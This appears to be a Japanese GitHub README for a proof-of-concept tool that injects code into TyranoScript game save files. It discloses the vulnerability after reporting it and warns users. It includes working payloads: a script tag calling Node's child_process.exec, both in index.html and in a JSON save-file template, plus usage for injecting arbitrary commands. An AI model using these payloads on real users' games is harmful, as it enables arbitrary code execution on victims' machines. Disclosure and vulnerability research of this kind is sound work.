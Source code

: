 # tyranoscript_vulnerability
👻 TyranoScript(Tyrano シリーズ)のテスト用コードインジェクションツール  
![main.png](images/main.png)  
CVE-XXXX-XXXX (0day)  

**⚠他者から受け取ったセーブデータファイルや開発データの利用は大変危険です!!!!⚠**  

本脆弱性は[独立行政法人情報処理推進機構(IPA)](https://www.ipa.go.jp/)及び開発者に報告を行った後、365日の期間を開けて公開されました。
脆弱性に該当しない可能性がある/セキュリティリスクとなりうる部分を修正したとの返答を受け取っており、注意喚起及び同様の脆弱性作りこみの防止を目的として開示します。
本PoCはユーザへの注意喚起と、ユーザ自身が作成したゲームの脆弱性を調査する目的でのみの利用が許可され、攻撃への転用は禁止されています。
また、他者の作成したゲームに本PoCを使用することは、法律で禁止されている場合がありますのでご注意ください。  
ツール名はジョークです(恐竜の🍖食べてみたいよね)。

## Vulnerability
以下に示すツール/バージョンを用いて開発されたすべてのゲームに、セーブデータファイル経由の脆弱性が存在します。
- TyranoScriptV5 <= 5.04b  
- TyranoScript <= 4.83  

攻撃者はセーブデータファイル内に埋め込まれたHTMLタグを経由して、JavaScriptからNode.jsの全機能を利用し、任意のコードを実行することができます。
これにより被害者は、配布されているセーブデータを読み込むだけで、悪意のあるコードの脅威に晒されることとなります。
また、ゲームの開発データである`index.html`を経由しても同様であり、対象のソフトウェア(ツール)/バージョンは以下になります。
- TyranoBuilder <= 1.87b  
- TyranoBuilderV5 <= 2.03  
- TyranoRider <= 2.20  
- TyranoStudio <= 1.10d  
- (TyranoScriptV5 <= 5.13b)  
- (TyranoScript <= 4.88)  

本PoCにはindex.htmlにコードをインジェクションするテスト機能はありませんが、以下のコードを埋め込んだゲームを開発者としてプレビューすると、XSSから任意のコードが実行されます。
```html
<script>
require("child_process").exec("calc");
</script>
```

### Payload
脆弱性調査はオリジナルのゲームセーブデータを利用せずに再現することができます。
他者のゲームにおいて調査を行う場合は、以下を利用することでセーブデータ改変の著作権諸問題を回避できます。
以下のセーブデータは、すべてのゲームのセーブデータパターンにマッチします。
```json
{
    "kind":"save",
    "data":[{
        "title":"<script>require('child_process').exec('calc');</script>"
    }]
}
```

### Demo
![calc.gif](images/calc.gif)  
(サンプルゲーム引用元: https://tyrano.jp/)  

## Usage
```bash
usage: tyranokiller.py [-h] [-c COMMAND] filename

positional arguments:
  filename              Specify the target sav file name

optional arguments:
  -h, --help            show this help message and exit
  -c COMMAND, --command COMMAND
                        Specify the command to be injected
```
デフォルトでは`calc`が実行されます。
コードはセーブデータの先頭のセーブに反映されます。

**コード`alert('Injected_by_TyranoKiller_!!!!');`は悪用を防ぐために付加されており、削除を禁止します。**
